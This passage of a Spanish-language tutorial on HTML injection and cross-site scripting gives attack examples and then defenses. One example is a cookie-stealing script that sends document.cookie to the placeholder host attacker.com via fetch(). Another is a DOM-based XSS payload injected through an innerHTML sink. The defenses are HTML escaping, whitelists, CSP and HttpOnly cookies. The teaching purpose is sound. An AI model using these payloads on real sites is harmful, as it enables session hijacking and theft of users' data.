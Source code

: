 ➡️ Cualquiera que vea el libro de visitas ve el alert.

---

#### ✅ Ejemplo C: XSS con robo de cookies

```html
<script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

✅ Envía las cookies a un servidor externo.

---

#### ✅ Ejemplo D: DOM-Based XSS

Si la página hace:

```javascript
document.getElementById("result").innerHTML = location.hash.substring(1);
```

Visita:

```
#<img src=x onerror=alert(1)>
```

✅ Ejecuta alert(1).

---

### ✅ 6️⃣ Cómo proteger aplicaciones de HTML Injection y XSS

✅ **Escapar HTML**

```php
echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
```

✅ **Validar y sanitizar inputs**

- Solo permitir caracteres válidos.
- Usar **whitelists**.

✅ **Content Security Policy (CSP)**

Ejemplo de cabecera:

```
Content-Security-Policy: default-src 'self';
```

✅ **HTTPOnly y Secure en Cookies**

```
Set-Cookie: sessionid=abc123; HttpOnly; Secure
```

